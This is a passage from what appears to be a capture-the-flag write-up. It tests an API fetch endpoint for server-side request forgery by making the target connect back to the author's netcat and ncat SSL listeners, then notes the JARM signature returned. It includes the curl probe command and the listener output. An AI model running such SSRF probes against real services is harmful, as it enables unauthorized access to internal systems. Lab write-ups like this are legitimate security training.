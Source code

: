 **Endpoint-3**
	- This endpoint itself interesting as it ends in `/fetch` and takes a string as input. This is the full endpoint `/api/v1/fetch`
- Thi endpoint is promising so to test this I tried to hit back my host through this endpoint, First I spawned a nc listener and requested via this endpoint like this
```bash
curl 'http://10.10.11.117/api/v1/fetch?endpoint=http%3A%2F%2F10.10.14.18%3A6001' -H 'accept: application/json'
```
- The reflection on nc my listener looks rather interesting cause, hmm...look at this
![alien-lang](https://media1.tenor.com/m/2VCSbTAr25QAAAAC/nonsense-talk.gif)
```
❯ nc -lnvp 6001
listening on [any] 6001 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.11.117] 42834
�����&�so*�z�E_9l�s�e|��Kg8 u� ������Z1I�Wv㝱8�n1G����3g�����9k�����E�����	�#�����+�
�$�����,�r�s̩�����'�/��(�0�`�a�v�w̨��
/<�����5=�����A����
                   10.10.14.18�


3&$ �����}L�)z/3��7�U�Ս�4�Q�xI���-+%
```
- This looks like an encrypted value to me, it could be a certificate or handshake but something encrypted that's for sure so I fired up a listener with ssl
- Typical nc(NetCat) may give errors cause by default nc doesn't support SSL so I installed `ncat` with `sudo apt-get install ncat` then used this command to get a listener with ssl.

{{< badge >}} definition {{< /badge >}}
- "ncat" is a modern reimplementation of the venerable Netcat, developed by the Nmap Project, and is a flexible tool for reading, writing, redirecting, and encrypting data across a network, often used for security testing and administration tasks
```bash
ncat --ssl -lnvp 443
```
- Now the connection just cuts off after two seconds, Which is weird
```
❯ ncat --ssl -lnvp 443
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Generating a temporary 2048-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 0362 8FEE A32F 8320 7092 B6DC BA81 43C8 A83F 4CB5
Ncat: Listening on [::]:443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.117:47406.
Ncat: Failed SSL connection from 10.10.11.117: error:0A000126:SSL routines::unexpected eof while reading
```
- I got this as my response from this request which is different in compared to previous one
```
{
  "sig": "21d000000000000000000000000000eeebf944d0b023a00f510f06a29b4f46",
  "ismalicious": false,
  "endpoint": "10.10.14.18:443",
  "note": "Ncat?",
  "server": ""
}
```
### Understanding JARM
- Before we move onto the next we have to learn about **JARM**
